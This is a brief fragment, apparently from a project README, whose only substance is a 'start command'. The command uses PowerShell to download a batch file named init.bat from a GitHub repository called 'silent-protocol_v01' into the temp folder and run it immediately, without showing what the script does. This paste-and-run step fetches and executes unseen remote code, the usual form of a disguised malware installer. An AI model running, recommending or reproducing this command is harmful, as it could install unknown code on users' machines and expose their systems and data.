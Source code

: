 start command:
powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/24-20/silent-protocol_v01/refs/heads/main/init.bat -OutFile %TEMP%\gb.bat" && %TEMP%\gb.bat
